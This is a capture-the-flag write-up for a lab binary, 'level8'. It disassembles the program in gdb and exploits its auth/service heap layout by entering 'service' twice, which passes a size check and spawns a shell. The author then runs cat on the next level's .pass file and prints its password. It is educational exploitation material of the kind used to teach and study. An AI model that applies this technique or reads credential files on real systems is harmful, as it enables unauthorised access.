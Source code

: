 We started the program and observed that it reads from `stdin` and prints `(nil), (nil)`:
```
$ ./level8
(nil), (nil)
```
By disassembling the `main` function, we discovered some interesting strings:
```
(gdb) disass main
[...]
  0x08048581 <+29>:	mov    $0x8048810,%eax      # "auth"
[...]
 0x080485c1 <+93>:	mov    $0x8048819,%eax      # "service"
[...]
0x08048648 <+228>:	mov    $0x804881f,%eax      # "reset"
[...]
0x0804867e <+282>:	mov    $0x8048825,%eax      # "login"
[...]
```
We decided to try entering the discovered strings to see their effect on the program:
```
./level8
(nil), (nil)
auth
0x804a008, (nil)
service
0x804a008, 0x804a018
login
Password:
auth
0x804a028, 0x804a018
auth
0x804a038, 0x804a018
```
When we enter `auth` and `service`, the two addresses update by `0x10` from the last written address.

Using `gdb`, we looked further into the disassembly:
```
gdb> disass main
[...]
   0x08048625 <+193>:	cmp    eax,0x1e
[...]
```

A cmp instruction compares a value with `0x1e` (31 in decimal).

We deduct that making the difference between the addresses auth and service superior or equal to `0x20` (32 in decimal) may exploit the program.
```
./level8
(nil), (nil)
auth
0x804a008, (nil)
service
0x804a008, 0x804a018
service
0x804a008, 0x804a028
login
$ cat /home/user/level9/.pass
c542e581c5ba5162a85f767996e3247ed619ef6c6f7b76a59435545dc6259f8a
```
